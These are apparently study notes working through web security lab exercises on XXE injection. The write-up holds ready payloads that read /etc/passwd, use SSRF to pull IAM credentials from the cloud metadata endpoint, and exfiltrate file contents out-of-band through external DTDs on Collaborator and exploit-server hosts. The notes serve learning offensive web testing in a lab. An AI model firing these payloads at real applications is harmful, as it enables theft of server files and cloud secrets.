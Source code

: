 Entity - variable declaration
SYSTEM is similar to  src
XML external entity
- Allows attacker to interfere with application's processing of XML data.
- Allows attacker to view files on application server filesystem and to interact with any back-end or external systems that the application itself can access.

How it arise:
- Application use XML format to transmit data between the browser and server.

Place to try:
- File  uploads
- 
### Lab: Exploiting XXE using external entities to retrieve files
- If "Check stock" feature that parses XML input and returns any unexpected values in the response.
- Intercepting the **POST** request, and inserting in between XML declaration 
```
		<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
```
- Replace productId number as `&xxe;`
- Response should contain "Invalid product ID" follwed by contents of `/etc/passwd` file.

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck>
<productId>
&xxe;
</productId>
<storeId>
1
</storeId>
</stockCheck>
```

### Lab: Exploiting XXE to perform SSRF attacks
-  If "Check stock" feature that parses XML input and returns any unexpected values in the response.
- Intercepting the **POST** request, and inserting in between XML declaration 
```
 <!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/"> ]>
```
- Replace productId number as `&xxe;`
- Response should contain "Invalid product ID: ___ followed by the response from the metadata endpoint____". [eg: latest]
- Iteratively update the URL that result in JSOAN response containing secret access key.[http://169.254.169.254/latest/meta-data/iam/security-credentials/admin]


### Blind XXE with out-of-band interaction
- "Check stock" feature that parses XML input but does not display the result.
- Can detect the blind XXE vulnerability by triggering out-of-band interactions with an external domain.

Attack:
- Intercepting the **POST** request, and inserting in between XML declaration.
```
 <!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN"> ]>
```
- Replace productId number as `&xxe;`
- Go to the Collaborator tab, and click "Poll now". You should see some DNS and HTTP interactions that were initiated by the application as the result of your payload.
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM "http://Insert Collaborator payload"> ]>
<stockCheck>
<productId>
&xxe;
</productId>
<storeId>
2
</storeId>
</stockCheck>
```

### Lab: Blind XXE with out-of-band interaction via XML parameter entities
- Does not display any unexpected values, and blocks requests containing regular external entities.
- Use a parameter entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator.
Attack:
- Insert external entity definition in between the XML declaration and the `stockCheck` element. 
- Insert a Burp Collaborator subdomain where indicated.
```
<!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN"> %xxe; ]>
```
- You should see some DNS and HTTP interactions that were initiated by the application as the result of your payload.

### Lab: Exploiting blind XXE to retrieve data via error messages
- Intercepting the **POST** request, and inserting in between XML declaration.
```
		<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-0a0a000b04c87262815ba1d301be00ae.exploit-server.net/exploit.dtd"> %xxe;]>
```
- Body of server 
```
<!ENTITY % file SYSTEM "file:///etc/passwd"> 
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>"> 
%eval; 
%exfil;
```

- Error message containing the contents of the `/etc/passwd` file.

### Lab: Exploiting XInclude to retrieve files
- Check stock and send the POST request to repeater.
- Replace the productId as
```
<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>
```
- Error message containing the contents of the `/etc/passwd` file.

### Lab: Exploiting XXE to retrieve data by repurposing a local DTD
- Check stock and send the POST request to repeater.
- Inserting in between XML declaration 
```
<!DOCTYPE message [ 
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd"> 
<!ENTITY % ISOamso ' <!ENTITY &#x25; file SYSTEM "file:///etc/passwd"> 
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>"> 
&#x25;eval; 
&#x25;error; 
'> 
%local_dtd; 
]>
```
